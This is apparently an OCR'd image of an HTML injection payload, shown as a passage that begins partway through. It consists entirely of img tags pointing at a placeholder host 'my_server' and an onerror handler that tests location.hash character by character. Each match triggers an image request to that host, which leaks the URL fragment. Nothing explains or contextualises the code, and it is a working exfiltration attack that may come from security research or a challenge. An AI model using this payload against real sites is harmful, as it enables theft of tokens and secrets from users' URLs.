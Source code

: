```
&lt;img srcset=//my_server/n id=n23 alt=w&gt;
&lt;img srcset=//my_server/o id=n24 alt=x&gt;
&lt;img srcset=//my_server/p id=n25 alt=y&gt;
&lt;img srcset=//my_server/q id=n26 alt=z&gt;
&lt;img srcset=//my_server/r id=n27 alt=0&gt;
&lt;img srcset=//my_server/s id=n28&gt;
&lt;img srcset=//my_server/t id=n29&gt;
&lt;img srcset=//my_server/u id=n30&gt;
&lt;img srcset=//my_server/v id=n31&gt;
&lt;img srcset=//my_server/w id=n32&gt;
&lt;img srcset=//my_server/x id=n33&gt;
&lt;img srcset=//my_server/y id=n34&gt;
&lt;img srcset=//my_server/z id=n35&gt;

&lt;img id=lo srcset=//my_server/loop onerror=
n0.alt+identifier&lt;location.hash+1?n0.src+++lo.src++:
n0.alt+identifier&lt;location.hash+2?n1.src+++lo.src++:
n0.alt+identifier&lt;location.hash+3?n2.src+++lo.src++:
n0.alt+identifier&lt;location.hash+4?n3.src+++lo.src++:
n0.alt+identifier&lt;location.hash+5?n4.src+++lo.src++:
n0.alt+identifier&lt;location.hash+6?n5.src+++lo.src++:
n0.alt+identifier&lt;location.hash+7?n6.src+++lo.src++:
n0.alt+identifier&lt;location.hash+8?n7.src+++lo.src++:
n0.alt+identifier&lt;location.hash+9?n8.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n1.alt?n9.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n2.alt?n10.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n3.alt?n11.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n4.alt?n12.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n5.alt?n13.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n6.alt?n14.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n7.alt?n15.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n8.alt?n16.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n9.alt?n17.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n10.alt?n18.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n11.alt?n19.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n12.alt?n20.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n13.alt?n21.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n14.alt?n22.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n15.alt?n23.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n16.alt?n24.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n17.alt?n25.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n18.alt?n26.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n19.alt?n27.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n20.alt?n28.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n21.alt?n29.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n22.alt?n30.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n23.alt?n31.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n24.alt?n32.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n25.alt?n33.src+++lo.src++:
n0.alt+identifier&lt;location.hash+n26.alt?n34.src+++lo.src++:
n35.src+++lo.src++&gt;`
```

